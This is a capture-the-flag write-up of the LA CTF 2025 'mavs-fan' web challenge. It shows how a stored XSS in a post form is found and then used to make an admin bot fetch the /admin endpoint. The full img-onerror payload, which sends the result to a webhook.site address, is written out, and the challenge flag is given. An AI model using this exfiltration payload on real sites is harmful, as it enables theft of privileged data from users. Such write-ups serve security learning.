 # mavs-fan

## Background

Just a Mavs fan trying to figure out what Nico Harrison cooking up for my team nowadays...<br>
Hint - You can send a link to your post that the admin bot will visit. Note that the admin cookie is HttpOnly!<br>
Site - mavs-fan.chall.lac.tf<br>
Admin Bot - https://admin-bot.lac.tf/mavs-fan

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image.png)

- **Difficulty: Easy**
- **This challenge has source code: [mavs-fan.zip](https://github.com/vodanh1903/CTF-Writeups/blob/main/LA-CTF-2025/Web/mavs-fan/mavs-fan.zip)**

## Enumeration

Index page:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-1.png)

In this page, we have an input field and this challenge has an admin bot, so it's could be an client-side vulnerability. But first I will give it some input to see how it processes:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-2.png)

Click `Send Message` and it will redirect us to another page, which contains a post and our input:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-3.png)

Okay, so I will try to exploit XSS by giving it a simple payload for testing XSS `<script>alert(1)</script>`, click `Send Message`:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-4.png)

Hmm, it seems like my payload doesn't work. I will inspect this page to see if it has filtered my payload:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-5.png)

Oh, my payload is still on the page and it seems not to be sanitized. So the payload may be successfully executed but the backend somehow handles it so it won't show to the client. Then I will test a payload with `img` tag to see if it's executed before looking through the source code. My payload: `<img src=x onerror="alert(1)"/>`.<br>

Explain about the payload:<br>
1. We will use the `img` tag with `src` attribute and `onerror` attribute. 
2. The `src=x` will cause an error because the `x` doesn't exist, and when an error appears, the `onerror="alert(1)"` get executed.<br>

The result when I send the payload:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-6.png)

The payload works! Now, I need to look for the source code to see where and how I can read the flag.

> Reading the source code, Idk why the `script` tag can't be executed cause I see no filter apllied on our input, maybe the web page has WAF which blocks the `script` tag or am I missing something???

In `app.js`, we can see that the flag is located at the endpoint `/admin`:

```js
[...]
app.get('/admin', (req, res) => {
    if (!req.cookies.secret || req.cookies.secret !== ADMIN_SECRET) {
        return res.redirect("/");
    }
    return res.json({ trade_plan: FLAG });
});
[...]
```

To read the flag, we need the cookie of the admin and we have the admin bot!.

## Exploitation

So, the idea is:
1. We let the admin bot read the content of endpoint `/admin`
2. We will make the bot send the content to our domain ( I will use [webhooks.site](https://webhook.site/) ), so we can read the flag!<br>

This is my payload for this challenge: `<img src="x" onerror="fetch('https://mavs-fan.chall.lac.tf/admin') .then(res => res.text()) .then(data => { fetch('https://webhook.site/273fb9ed-bb43-424f-b0b9-ceed3f8c3d22/?d='+encodeURIComponent(data)); });" />`.<br>

Explain about the payload:
1. First, we will use `img` tag to execute XSS which I've explained above.
2. When the `onerror` is loaded, we will make the bot read the content of the endpoint `/admin` through [`fetch()`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API).
3. Then, we will use [`then()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then) to handle the data, the content of the endpoint `/admin` will be assigned to `res` and then it can be read through `res.text()`.
4. Next, we will use `then()` again and assign `res.text()` to `data` and make the bot send the `data` to our webhook through `d` parameter with `fetch()`. (Remember to use [`encodeURIComponent()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURIComponent) if you want to dynamically assemble string values into a URL)<br>

Back to the exploitation, we will save this payload to a post like we did before:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-7.png)

Next, we will send the url to our post to the admin bot, so it will read the post and then the payload will be executed:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-8.png)

Click `Submit` and we should receive the flag on our webhook:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-9.png)

- **Flag: `lactf{m4yb3_w3_sh0u1d_tr4d3_1uk4_f0r_4d}`**

## Conclusion

What we've learned:

1. Cross-site Scripting (XSS)
